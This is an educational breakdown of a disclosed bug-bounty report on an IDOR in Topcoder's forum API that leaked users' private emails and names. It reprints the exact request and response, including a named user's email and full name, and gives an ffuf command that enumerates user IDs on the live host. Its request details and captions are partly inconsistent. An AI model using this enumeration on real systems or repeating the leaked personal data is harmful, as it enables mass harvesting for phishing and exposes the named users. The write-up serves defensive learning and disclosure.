



Independent educational breakdown of a publicly disclosed report. Credit for the original finding belongs to its researcher.
What Is IDOR?
Insecure Direct Object Reference (IDOR) occurs when an application uses a user-supplied value — a user ID, thread ID, or any identifier — to fetch or act on a resource without first checking whether the requester is authorized to access it. The attacker doesn't need to break any cryptography; they just substitute a value they shouldn't control and the server complies.
This report is a classic example of an information-disclosure IDOR: the identifier being abused is a user ID, and the leaked resource is the target's private contact details — email address, name, and internal account ID.
The Target — Topcoder Forums
Topcoder is one of the world's largest competitive programming and freelance development platforms. Its forum system lives at apps.topcoder.com/forums/ and is used by the platform's large community to discuss challenges, ask questions, and follow threads.
Every Topcoder member has a profile with a registered email address. That email is considered private — it is not displayed on public profile pages. This report found a forum API endpoint that was returning it anyway.
The forum is a legacy application. Legacy sub-systems are a reliable hunting ground for IDOR: they are often built before modern authorization frameworks existed, and they receive less security review than newer services.
The Bug
The Topcoder forum exposed a "Watch Thread" feature — a way for logged-in users to subscribe to a thread and receive notifications. When the Watch Thread button was clicked, the browser sent a request to a forum API that looked up member details to set up the notification.
The API accepted a user identifier as a direct parameter. Crucially, the server did not verify that the requester was authorized to retrieve the target user's details. Any authenticated forum user could substitute any other user's ID and receive their email address, first name, last name, and internal user ID in the response — fully enumerable at scale.
Vulnerable Watch Thread API — concept
# Normal — Watch Thread request for your own session
GET https://apps.topcoder.com/forums/?module=Watch&action=AddUser&userID=123456
Cookie: session=attacker_valid_session
# Response includes target user's PII
{
"email": "victim@example.com",
"firstName": "Jane",
"lastName": "Doe",
"userId": 123456
}The user IDs on Topcoder are sequential integers — meaning an attacker could iterate over IDs starting from 1 and harvest the email addresses of every user on the platform in a single automated pass.
Proof of Concept
Reproduction requires only a Topcoder account and Burp Suite (or any HTTP proxy). The reporter's exact steps:
- 1. Create a profile at
topcoder.com. - 2. Navigate to
apps.topcoder.com/forumsand log in to the forum. - 3. Open any thread — e.g.,
https://apps.topcoder.com/forums/?module=Thread&threadID=966515&start=0. - 4. Enable HTTP interception in Burp Suite and click Watch Thread.
- 5. Intercept the outgoing Watch API request and change the
userIDparameter to any other user's ID. - 6. Forward the modified request — the response contains the victim's email, first name, last name, and user ID.
Step 1 — Victim's userID exposed in Topcoder DOM (DevTools)

Step 2 — Modified POST request in Burp Repeater (uid swapped to victim)

fast.trychameleon.com/observe/v2/profiles/ with the uid field set to the victim's user ID (90062880). The request originates from apps.topcoder.com.
Exact HTTP Request — from HackerOne Report #1073420
POST /observe/v2/profiles/dawda HTTP/1.1
Host: fast.trychameleon.com
Connection: close
Content-Length: 260
Accept: /
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: text/plain
Origin: https://apps.topcoder.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://apps.topcoder.com/
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
{
"id": "5ff4c6eca2227c001d72c4b8",
"uid": "40991562", ← victim's user ID substituted here
"username": "nochnoidozorh1",
"browser_x": 1366,
"browser_n": "chrome",
"browser_k": "desktop",
"browser_tz": 3,
"now": "2021-01-09T09:56:10.892Z",
"_method": "PATCH",
"_mode": "user",
"_account_id": "59aedc1ce5680b0004301f6d"
}
Exact HTTP Response — victim PII returned
{
"profile": {
"created_at": "2019-11-16T15:44:25.000Z",
"email": "nochnoidozorh1@gmail.com", ← private email leaked
"first_name": "Nochnoi", ← first name leaked
"last_name": "Dozor", ← last name leaked
"roles": ["Topcoder User"],
"groups": [],
"tracks": [],
"username": "nochnoidozorh1",
"member_community_blockchain": "No",
"member_community_cognitive": "No",
"member_profile_all_age_bucket": "Undefined",
"member_profile_all_handle": "nochnoidozorh1",
"member_stats_num_inquiries": [],
"member_stats_top_five_finishes": [],
"member_stats_top_ten_finishes": [],
"member_stats_wins": [],
"member_profile_all_tracks": [],
"member_stats_avg_placement": [],
"member_stats_maximum_rating": [],
"member_stats_most_recent_event_date": [],
"member_stats_rating": [],
"member_stats_submission_rate": [],
"member_stats_win_percent": [],
"id": "5dd019597e549c0004a5fbb6",
"updated_at": "2021-01-09T09:57:44.547Z",
"uid": "40991562" ← confirms victim's UID in response
}
}
Reporter's note (verbatim): "The e-mail, firstname, surname, id information of the users are private."
email: nochnoidozorh1@gmail.com · first_name: Nochnoi · last_name: Dozor · id: 5dd019597e549c0004a5fbb6
Step 3 — Server response leaks victim email address (Burp Repeater)

"email":"nomadex41@gmail.com" along with first_name and last_name — private PII leaked to an unauthorized requester with zero access controls.No victim interaction required. The attacker only needs a valid session — the victim never visits any page, clicks anything, or receives any notification during the data harvest.
What Was Leaked
Each API response returned four fields for the target user:
- Email address — the registered private email, never shown on public profiles.
- First name — from the user's Topcoder registration.
- Last name — same source.
- User ID — the internal sequential integer identifier.
Email + name = high-value phishing bait. With a real name and email address harvested from a trusted platform like Topcoder, an attacker can craft highly targeted spear-phishing emails that are far more convincing than generic spam. Topcoder users include developers, engineers, and freelancers — a valuable target list.
Impact
- Mass PII harvest — sequential user IDs + no rate limiting = every registered user's email can be scraped in a single automated loop.
- Targeted phishing — email + full name allows highly personalised spear-phishing against Topcoder's entire member base.
- Account enumeration — the internal user ID from each response can be used to correlate accounts across endpoints and escalate further attacks.
- Privacy regulation risk — exposing email addresses and names of users without consent is a potential GDPR / data protection violation for Topcoder as a data controller.
- No authentication bypass needed — any registered forum user could exploit this; registration is open to the public.
The Fix
The correct fix requires two layers:
1. Authorization check before returning PII. The API must verify that the authenticated session belongs to the user whose details are being requested — or that the requester has an explicit entitlement (e.g., an admin role) to access that data.
Server-side fix — pseudocode
# Vulnerable — returns any user's PII directly
def watch_thread_add_user(requested_user_id, session):
user = User.find(requested_user_id)
return user.email, user.first_name, user.last_name
# Secure — only allow access to own data
def watch_thread_add_user(requested_user_id, session):
if session.user_id != requested_user_id:
raise Forbidden("Cannot watch threads on behalf of another user")
user = User.find(requested_user_id)
return user.email, user.first_name, user.last_name2. Remove PII from the response entirely. The Watch Thread feature doesn't need to return the user's email in the response body at all — the subscription can be set up server-side without transmitting the email back to the client. Strip it from the API response as a defence-in-depth measure.
- Use non-sequential IDs — replacing integer user IDs with UUIDs or random tokens eliminates brute-force enumeration even if another IDOR is missed.
- Rate-limit user-lookup endpoints — cap requests per session/IP per minute to limit bulk harvest blast radius.
- API response allow-list — define exactly what fields each endpoint is permitted to return; reject any field not on the allow-list at the serializer layer.
How to Hunt IDOR on Forum & Notification APIs
- Intercept every subscription/notification action. "Watch", "Follow", "Subscribe", "Notify me" buttons are high-value targets — they almost always trigger a background API call with a user or resource identifier.
- Two-account testing. Account A watches a thread. Intercept the request and replace Account A's user ID with Account B's. If the response changes to show Account B's data — that's an IDOR.
- Check all response fields. Even if the feature works correctly after the ID swap, read the entire response body — PII fields like email are often included alongside functional data and easy to miss at a glance.
- Enumerate user IDs. If the platform uses integer IDs and you've confirmed one IDOR, check whether the ID space is walkable — a scripted loop from ID 1 upward can reveal the full scope of exposure.
- Test legacy subdomains separately. Legacy forum systems (
forums.,community.,apps.) run on older codebases that rarely receive the same authorization review as the main application. Always add them to your scope.
ffuf — enumerate userID for email leak
# Fuzz userID from 100000 to 110000, capture responses with email addresses
ffuf -u "https://apps.topcoder.com/forums/?module=Watch&action=AddUser&userID=FUZZ" \
-H "Cookie: tcjwt=YOUR_SESSION_TOKEN" \
-w <(seq 100000 110000) \
-mc 200 \
-mr "email" # match responses containing "email" fieldPattern to remember: whenever an API endpoint accepts a
userID parameter and returns user profile data, ask — does this endpoint need to accept any user ID, or should it always use the session's own ID? If the answer is "own session only", the parameter should be removed entirely from the request and derived server-side from the auth token.